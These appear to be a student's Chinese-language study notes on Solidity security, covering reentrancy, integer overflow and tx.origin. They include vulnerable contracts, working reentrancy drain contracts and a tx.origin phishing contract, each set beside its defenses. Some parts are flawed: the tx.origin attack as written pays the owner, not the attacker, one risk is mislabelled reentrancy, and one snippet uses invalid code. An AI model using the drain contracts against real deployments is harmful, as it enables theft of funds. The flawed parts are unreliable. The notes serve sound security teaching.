

# 9-W2D2-安全性（1）

**目标：掌握智能合约中的常见安全问题**

- 重入攻击（Reentrancy）与防御（Reentrancy Guard）
- 整数溢出与下溢（Solidity 0.8后的变化）
- `tx.origin`的风险

**笔记**

- 重入攻击（Reentrancy）与防御（Reentrancy Guard）
    - [**Solidity 智能合约安全漏洞——普通重入攻击**](https://blog.csdn.net/qq_69584919/article/details/141299940)
        - **什么是普通重入攻击？**
            
            **重入攻击（Re-Entrancy）**
            
            2016 年发生在 The DAO 项目中的 Re-Entrancy 漏洞攻击，造成价值当时 6000 万美元的以太币被盗，直接导致以太坊主网硬分叉。
            
            Re-Entrancy 漏洞原理
            Re-Entrancy 漏洞本质上是一个状态同步问题。当智能合约调用外部函数时，执行流会转移到被调用的合约。如果调用合约未能正确同步状态，就可能在转移执行流时被再次调用，从而重复执行相同的代码逻辑。
            
            具体来说,攻击往往分两步:
            
            1. 被攻击的合约调用了攻击合约的外部函数，并转移了执行流。
            2. 在攻击合约函数中，利用某些技巧再次调用被攻击合约的漏洞函数。
            
            由于 EVM 是单线程的，重新进入漏洞函数时，合约状态并未被正确更新，就像第一次调用一样。这样攻击者就能够多次重复执行一些代码逻辑，从而实现非预期的行为。典型的攻击模式是多次重复提取资金。
            
            [**Re-Entrancy图示**](https://i-blog.csdnimg.cn/direct/4f8dfed76f8e42d3930d6445ab738b6c.webp#pic_center)
            
            
            
        - **重入攻击（Re-Entrancy）代码1：`receive() external payable**`
            - **Re-Entrancy漏洞合约**
                
                ```solidity
                contract EtherStore {
                    mapping(address => uint256) public balances;
                
                    function deposit() public payable {
                        balances[msg.sender] += msg.value;
                    }
                
                    function withdraw() public {
                        uint256 bal = balances[msg.sender];
                        require(bal > 0);
                
                        (bool sent,) = msg.sender.call{value: bal}("");
                        require(sent, "Failed to send Ether");
                
                        balances[msg.sender] = 0;
                    }
                
                    // 用于检查此合约的余额
                    function getBalance() public view returns (uint256) {
                        return address(this).balance;
                    }
                }
                ```
                
            - **Re-Entrancy攻击合约Attack**
                
                ```solidity
                contract Attack {
                    EtherStore public etherStore;
                    uint256 public constant AMOUNT = 1 ether;
                
                    constructor(address _etherStoreAddress) {
                        etherStore = EtherStore(_etherStoreAddress);
                    }
                
                    // receive is called when EtherStore sends Ether to this contract.
                    receive() external payable {
                        if (address(etherStore).balance >= AMOUNT) {
                            etherStore.withdraw();
                        }
                    }
                
                    function attack() external payable {
                        require(msg.value >= AMOUNT);
                        etherStore.deposit{value: AMOUNT}();
                        etherStore.withdraw();
                    }
                
                    // Helper function to check the balance of this contract
                    function getBalance() public view returns (uint256) {
                        return address(this).balance;
                    }
                }
                
                ```
                
            - 攻击过程
                1. attack 函数中攻击者先转入一定数量的 ETH，调用 etherStore.deposit 函数转移到目标合约 EtherStore 中，接下来调用 etherStore.withdraw 函数提取 ETH。这看似是一个常规的操作，但问题出现在下一个函数。
                2. receive 是合约接收 ETH 时默认执行的函数，它由 payable 关键字修饰，表明它可以接收发送来的 ETH（也可以使用 fallback 函数来实现同样的效果）。在函数内部，当目标合约中的余额满足条件（大于 1 ETH）时，会再次调用 withdraw 函数，即发起重入，由于目标合约中用户的余额是在最后一步才进行更新，因此 require(bal > 0); 条件依旧满足，也就可以继续把目标合约中的 ETH 转移走
                
        - **重入攻击（Re-Entrancy）代码2：`call`**
            
            [**Solidity - 安全 - 重入攻击（Reentrancy）**](https://blog.csdn.net/ling1998/article/details/125473315)
            
            The DAO是分布式自治组织，2016年5月正式发布，该项目使用了由德国以太坊创业公司Slock.it编写的开源代码。2016年6月17上午，被攻击的消息开始在社交网站上出现，到6月18日黑客将超过360万个以太币转移到一个child DAO项目中，child DAO项目和The DAO有着一样的结构，当时以太币的价格从20美元降到了13美元。
            
            当时，一个所谓的”递归调用“攻击（现在称为重入攻击）名词随之出现，这种攻击可以被用来消耗一些智能合约账户。
            整个事件可以参考： [The DAO攻击历史_x-2010的博客-CSDN博客_dao 攻击](https://blog.csdn.net/huhaoxuan2010/article/details/80088864)
            
            ### 模拟重入攻击
            
            攻击与被攻击合约代码
            
            > 说明：以下重入攻击代码，在0.8.0以下版本可以成功测试，0.8.0及以上版本未能成功测试，调用攻击函数时被拦截报错。
            > 
            - 源码可参见： [smartcontract/Security/Reentrancy at main · tracyzhang1998/smartcontract · GitHub](https://github.com/tracyzhang1998/smartcontract/tree/main/Security/Reentrancy)
                
                ```solidity
                // SPDX-License-Identifier: MIT
                pragma solidity ^0.7.6;
                 
                //被攻击合约
                contract EtherStore {
                    //记录余额
                    mapping(address => uint256) public balance;
                 
                    // 存款，ether转入合约地址，同时更新调用者的balance;
                    function deposit() external payable {
                        balance[msg.sender] += msg.value;
                    }
                 
                    // 取款，从合约地址余额向调用者地址取款
                    function withdraw(uint256 _amount) external {
                        // 验证账户余额是否充足
                        require(balance[msg.sender] >= _amount, "The balance is not sufficient.");
                        // 取款（从合约地址转入调用者账户）
                        (bool result,) = msg.sender.call{value: _amount}("");
                        // 验证取款结果 
                        require(result, "Failed to withdraw Ether");
                 
                        // 更新余额
                        balance[msg.sender] -= _amount;
                    }
                 
                    // 查看合约余额
                    function getContractBalance() external view returns(uint256) {
                        return address(this).balance;
                    }
                }
                 
                //攻击合约（黑客编写）
                contract Attack {
                    EtherStore public etherstore;
                 
                    constructor(address _etherStoreAddress) public {
                        etherstore = EtherStore(_etherStoreAddress);
                    }
                 
                    //回退函数
                    fallback() external payable {
                        //判断被攻击合约余额大于等于1 ether，是为了避免死循环，死循环时调用将会失败，达不到目的了
                        if (address(etherstore).balance >= 1 ether) {
                            //从被攻击合约中取款
                            etherstore.withdraw(1 ether);
                        } 
                    }
                 
                    //攻击函数
                    function attack() external payable {
                        require(msg.value >= 1 ether);
                 
                        //向被攻击合约存款
                        //etherstore.deposit.value(1 ether)();  //0.6.0版本以前写法
                        etherstore.deposit{value: 1 ether}();
                        //从被攻击合约中取款
                        etherstore.withdraw(1 ether);
                    }
                 
                    //查看合约余额
                    function getContractBalance() external view returns (uint256) {
                        return address(this).balance;
                    }
                 
                    //取出合约余额到外部账户中
                    function withdraw() external payable {
                        payable(msg.sender).transfer(address(this).balance);
                    }
                 
                    //查看外部账户余额
                    function getExternalBalance() external view returns (uint256) {
                        return msg.sender.balance;
                    }
                }
                ```
                
            - 攻击过程
                
                
                
    - 防御重入攻击（Reentrancy Guard）
        
        [**Solidity 智能合约安全性：防止重入攻击的 4 种方法**](https://learnblockchain.cn/article/4118)
        
        总共四种方法，但是前三种主要的防止重入技术：
        
        1. 检查、效果、交互(CEI)
        2. 重入保护/互斥
        3. 提款支付
        4. 限制gas(此方法可能是有效的，但不推荐)
        
        - 代码演示：
            
            ```solidity
            // 1. 检查、效果、交互(CEI)
            // contract_A: holds user's funds
            // 漏洞代码1
            function withdraw() external {
            		uint userBalance = userBalances[msg.sender];
            		require(userBalance > 0);
            		(bool success,) = msg.sender.call{ value: userBalance }("");
            		require(success,);
            		userBalances[msg.sender] = 0;
            }
            
            // 攻击代码
            function attackreceive() external payable {
              if (address(contract_A).balance >= msg.value) {
                contract_A.withdraw();
              }
            }
            
            // 修复代码1
            // 原理：在将资金转移到contract_B之前，会先将用户在contract_A中的账户余额归零，在contract_B发起重入攻击时，withdraw函数中的条件将为假，执行将被恢复。
            function withdraw() external {
            	  uint userBalance = userBalances[msg.sender];
            	  require(userBalance > 0);
            	  userBalances[msg.sender] = 0;
            	  (bool success,) = msg.sender.call{ value: userBalance }("");
            	  require(success,);
            }
            
            // 2. 重入保护/互斥
            // 修复代码2
            bool internal locked = false;
            function withdraw() external {
            	  require(!locked);
            	  locked = true;
            	  uint userBalance = userBalances[msg.sender];
            	  require(userBalance > 0);
            	  (bool success,) = msg.sender.call{ value: userBalance }("");
            	  require(success,);
            	  userBalances[msg.sender] = 0;
            	  locked = false;
            }
            
            // 3. 提款支付
            // 最后一种技巧是Open Zeppelin推荐的最佳实践。然而，在自动化方面有一个轻微的权衡。提款支付通过中介托管和避免与潜在的敌对合约直接接触来实现安全。
            function sendPayment(address user, address escrow) external {
              require(msg.sender == authorized);
              uint userBalance = userBalances[user];
              require(userBalance > 0);
              userBalances[user] = 0;
              (bool success,) = escrow.call{ value: userBalance }("");
              require(success,);
            }
            
            // 托管资金可以由接收者提取：
            function pullPayment() external {
              require(msg.sender == receiver);
              uint payment = account(this).balance;
              (bool success,) = msg.sender.call{ value: payment }("");
              require(success,);
            }
            ```
            
        - 总结：
            - 最直接有效的防御手段，就是遵循 Check-Effects-Interactions(CEI) 模式：就是方案1
                1. 首先——进行所有检查。
                2. 然后——进行更改，例如更新余额。
                3. 最后——调用另一个合约。
            - 最佳实践：另一种防御是使用 ReentrancyGuard，OpenZeppelin 提供了 Guards 代码：其实就是方案2的优化代码
                
                ```solidity
                contract ReentrancyGuard {
                    bool internal locked;
                
                    modifier nonReentrant() {
                        require(!locked, "No reentrancy");
                        locked = true;
                        _;
                        locked = false;
                    }
                }
                
                import "@openzeppelin/contracts/utils/ReentrancyGuard.sol";
                contract EtherStore is ReentrancyGuard {
                    
                    function withdraw() public nonReentrant {
                        uint256 bal = balances[msg.sender];
                        require(bal > 0);
                
                        (bool sent,) = msg.sender.call{value: bal}("");
                        require(sent, "Failed to send Ether");
                
                        balances[msg.sender] = 0;
                    }
                    
                    // ...
                }
                
                ```
                
- 整数溢出与下溢（Solidity 0.8后的变化）
    - [**整型**](https://decert.me/tutorial/solidity/solidity-basic/int)
        - **`uint/int`[](https://decert.me/tutorial/solidity/solidity-basic/int#uintint)**
            1. 用 `int/uint` 表示有符号和无符号不同位数整数。支持关键字`uint8`到`uint256` ，`uint`和`int`默认对应的是`uint256` 和`int256`。
            2. 关键字末尾的数字以8步进，表示变量所占空间大小，整数取值范围跟空间有关， 比如`uint32`类型的取值范围是 0 到 `2^32-1`(2的32次方减1)。
            3. 当没有为整型变量赋值时，会使用默认值 0。
        - 几点说明：
            1. 整型变量除法总是会截断取整，但是整型常量不会截断。
            2. 整数除 0 会抛出异常。
        
        > **提示：**
        > 
        > 
        > 在 Solidity 0.8版本之前， 如果整数运算结果不在取值范围内，则会被溢出截断。
        > 
        > 从 0.8.0 开始，算术运算有两个计算模式：一个是 `unchecked`（不检查）模式，一个是”`checked`” （检查）模式。
        > 
        > 默认情况下，算术运算在 “checked” 模式下，即都会进行溢出检查，如果结果落在取值范围之外，调用会通过 [失败异常](https://learnblockchain.cn/docs/solidity/control-structures.html#assert-and-require) 回退。 你也可以通过 `unchecked { ... }` 切换到 “unchecked”模式，更多可参考文档 [unchecked](https://learnblockchain.cn/docs/solidity/control-structures.html#unchecked) 。
        > 
        > **信息：**
        > 
        > 当我们确定一个运算不会发生溢出时，使用 `unchecked` 模式，有更高的 GAS 效率。
        > 
    - 整数溢出
        
        ### 整数溢出（Overflow）
        
        整数溢出发生在整数值增加到超过其类型所能表示的最大值时。例如，对于`uint8`类型，其最大值是`255`。如果我们尝试将一个`uint8`的值增加到`256`，它将回绕到`0`，这就是整数溢出。
        
        ### 示例：
        
        ```solidity
        uint8 x = 255;
        x = x + 1; // 此时x的值将变为0，而不是256
        ```
        
        ```solidity
        pragma solidity ^0.8.0;
            
        contract testInt {
        
            function testMul1() public pure returns (uint8) {
               unchecked {
                uint8 x = 128;
                uint8 y = x * 2;
                return y;
               }
            }
            
            function testMul2() public pure returns (uint8) {
                uint8 x = 128;
                uint8 y = x * 2;
                return y;
            }
            
         }
        ```
        
        1. `testMul1()` 的结果是0，而不是256，这是因为发生了溢出，溢出就像时钟一样，当秒针走到59之后，下一秒又从0开始。
        2. `testMul2()` 调用则会失败（revert）,在 0.8.0 之前或者在 unchecked 模式下，我们都需要防止整型溢出问题。
        3. 对结果使用进行判断，防止出现异常值
            
            ```solidity
            pragma solidity ^0.5.0;
            function add(uint256 a, uint256 b) internal pure returns (uint256) {
                uint256 c = a + b;
                require(c >= a);  // 做溢出判断，加法的结果肯定比任何一个元素大。
                return c;
            }
            ```
            
    - 整数下溢
        
        ### 整数下溢（Underflow）
        
        整数下溢发生在整数值减少到低于其类型所能表示的最小值时。对于无符号整数（例如`uint8`），最小值是`0`。如果我们尝试从一个无符号整数减去一个值，使其结果小于`0`，它将回绕到该类型的最大值。
        
        对于有符号整数（例如`int8`），其最小值是`-128`。如果我们尝试从一个`int8`的值减去一个值，使其结果小于`-128`，它将回绕到该类型的最大值`127`。
        
        ### 示例：
        
        ```solidity
        uint8 y = 0;
        y = y - 1; // 此时y的值将变为255，而不是-1
        
        int8 z = -128;
        z = z - 1; // 此时z的值将变为127，而不是-129
        ```
        
    - **防御措施**
        
        为了防止整数溢出和下溢，可以采取以下措施：
        
        1. **使用SafeMath库**：`OpenZeppelin`提供了一个`SafeMath`库，它包含了对算术运算的检查，确保不会发生溢出或下溢。
            
            ```solidity
            import "@openzeppelin/contracts/utils/math/SafeMath.sol";
            
            contract MyContract {
                using SafeMath for uint256;
            
                function safeAdd(uint256 a, uint256 b) internal pure returns (uint256) {
                    return a.add(b);
                }
            }
            ```
            
        2. **使用Solidity 0.8.0及以上版本的内置检查**：从Solidity 0.8.0开始，默认情况下所有的算术运算都会进行溢出和下溢检查。如果发生溢出或下溢，交易将回滚。
        3. **手动检查**：在进行算术运算之前，可以手动检查值是否会导致溢出或下溢。
            
            ```solidity
            function safeSub(uint256 a, uint256 b) internal pure returns (uint256) {
                require(b <= a, "Underflow");
                return a - b;
            }
            
            ```
            
        
- `tx.origin`的风险
    
    在Solidity智能合约中，`tx.origin`是一个全局变量，它包含了发起当前交易的账户地址。虽然`tx.origin`在某些情况下可能有用，但使用它存在重大安全风险，特别是在进行权限验证时。以下是使用`tx.origin`的风险和一些典型的攻击场景：
    
    ### 风险
    
    1. **重入攻击（Reentrancy Attack）**：
    如果合约使用`tx.origin`来授权交易，攻击者可以创建一个恶意合约，并通过该合约调用受害合约。由于`tx.origin`总是指向最初发起交易的账户，即使是通过恶意合约进行的调用，也会被认为是合法的，从而允许攻击者执行未经授权的操作。
    2. **钓鱼攻击（Phishing Attack）**：
    攻击者可以诱骗合约的所有者与一个恶意合约交互，这个恶意合约会进一步与受害合约交互。因为受害合约使用`tx.origin`进行验证，所以它将允许这个来自恶意合约的调用。
    
    ### 攻击场景示例
    
    假设有一个合约，它使用`tx.origin`来允许合约所有者提取资金：
    
    ```solidity
    pragma solidity ^0.8.0;
    contract VictimContract {
        address public owner;
        mapping(address => uint256) public balances;
        constructor() {
            owner = msg.sender;
        }
        function deposit() public payable {
            balances[msg.sender] += msg.value;
        }
        function withdrawAll() public {
            require(tx.origin == owner, "Not owner");
            payable(tx.origin).transfer(address(this).balance);
        }
    }
    
    ```
    
    攻击者可以创建以下恶意合约来利用这个漏洞：
    
    ```solidity
    pragma solidity ^0.8.0;
    interface IVictimContract {
        function withdrawAll() external;
    }
    contract MaliciousContract {
        address public owner;
        IVictimContract public victimContract;
        constructor(address _victimContractAddress) {
            victimContract = IVictimContract(_victimContractAddress);
            owner = msg.sender;
        }
        function attack() public {
            victimContract.withdrawAll();
        }
        receive() external payable {
            // 在这里，攻击者可以提取资金
            payable(owner).transfer(address(this).balance);
        }
    }
    
    ```
    
    攻击者可以诱骗合约所有者与恶意合约交互，比如通过调用`attack()`函数。由于`victimContract.withdrawAll()`在内部使用了`tx.origin`进行验证，它会认为所有者是发起交易的账户，即使实际调用是通过恶意合约进行的。这样，攻击者就可以控制所有者的资金。
    
    ### 防御措施
    
    为了避免这些风险，应遵循以下最佳实践：
    
    1. **避免使用`tx.origin`进行权限验证**：尽可能使用`msg.sender`，它代表直接调用合约的账户地址，而不是最初发起交易的账户。
    2. **使用OpenZeppelin的访问控制合约**：OpenZeppelin提供了`Ownable`和`Roles`等库，这些库使用`msg.sender`进行权限验证，而不是`tx.origin`。
    3. **审查和测试合约**：确保进行彻底的代码审查和测试，以识别和修复潜在的安全漏洞。
    通过避免使用`tx.origin`进行权限检查，并采用其他安全最佳实践，可以显著降低智能合约被攻击的风险。